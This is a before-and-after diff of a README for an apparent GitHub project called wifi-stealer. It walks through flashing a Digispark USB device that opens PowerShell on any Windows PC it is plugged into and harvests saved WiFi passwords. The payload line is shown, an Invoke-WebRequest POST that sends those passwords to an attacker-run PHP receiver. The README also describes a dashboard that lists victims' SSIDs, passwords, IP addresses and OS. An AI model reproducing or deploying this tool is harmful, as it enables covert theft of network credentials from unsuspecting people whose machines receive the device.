

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -106,50 +121,88 @@ Visit `http://localhost/index.php` - should see the dashboard.
 
 ### Getting Arduino IDE ready
 
-1. Open Arduino IDE
-2. File → Preferences
-3. Paste this into "Additional Boards Manager URLs":http://digistump.com/package_digistump_index.json
-4. Tools → Board → Boards Manager
-5. Search for "Digistump AVR" and install it
-6. Select Board: "Digispark (Default - 16.5MHz)"
+1. Open Arduino IDE.
+2. Go to `File → Preferences`.
+3. Add this to **Additional Boards Manager URLs**:
+
+```text
+http://digistump.com/package_digistump_index.json
+```
+
+4. Go to `Tools → Board → Boards Manager`.
+5. Search for `Digistump AVR` and install it.
+6. Select `Digispark (Default - 16.5MHz)`.
 
 ### Uploading the payload
 
-1. Open `payloads/wifi_stealer_digispark.ino` from the repo
+1. Open:
 
-2. **IMPORTANT:** Find this line and change the IP address:
+```text
+payloads/wifi_stealer_digispark.ino
+```
+
+2. Find this line and change the IP address:
+
 ```cpp
 DigiKeyboard.print(
   F("Invoke-WebRequest -UseBasicParsing -Uri 'http://192.168.1.8/wifi-recv.php' -Method POST -Body $b")
 );
 ```
 
-Change `192.168.1.8` to whatever IP your server is running on. That's the Kali or Windows machine from earlier.
+Change `192.168.1.8` to the IP of your Kali or Windows server.
 
-3. Click Upload
+3. Click **Upload**.
+4. When Arduino IDE says `Plug in device now...`, plug in the Digispark.
+5. Wait for the upload to finish.
 
-4. Wait for it to say "Plug in device now..." then plug in your Digispark
-
-5. Should say "success" after a few seconds
-
-Now whenever you plug that Digispark into a Windows PC, it'll:
-- Pop open PowerShell
-- Grab all saved WiFi passwords
-- Send them to your server
-- Close everything and clean up
-
-Pretty fast - takes like 5-10 seconds depending on how many networks they have saved.
+After flashing, plugging the Digispark into a Windows machine will:
+- Open PowerShell.
+- Read saved WiFi profiles.
+- Send the captured data to your PHP receiver.
+- Close out when finished.
 
 ---
 
 ## Viewing the Results
 
-Everything gets saved to `wifi_creds.log` and shows up on the dashboard at:
-- `http://YOUR_SERVER_IP/index.php`
+All captured data is saved in:
+
+```text
+wifi_creds.log
+```
+
+The dashboard is available at:
+
+```text
+http://YOUR_SERVER_IP/index.php
+```
 
 The dashboard shows:
-- How many machines you've hit
-- All the SSIDs and passwords
-- IP addresses of the victims
-- Their OS version
-- You can delete entries too if you want
+- Total number of captures.
+- SSIDs and passwords.
+- Victim IP address.
+- OS information.
+- A delete option for entries.
+
+---
+
+## Removing the Project
+
+If you want to remove everything, delete the files you copied earlier.
+
+### On Kali Linux
+
+```bash
+sudo rm -f /var/www/html/index.php
+sudo rm -f /var/www/html/wifi-recv.php
+sudo rm -f /var/www/html/wifi_creds.log
+```
+
+If you want to remove the whole repository too:
+
+```bash
+rm -rf ~/wifi-stealer
+```
+
+### On Windows (XAMPP)
+
````
Also changed, not shown: other parts of README.md (+80 -62 lines).
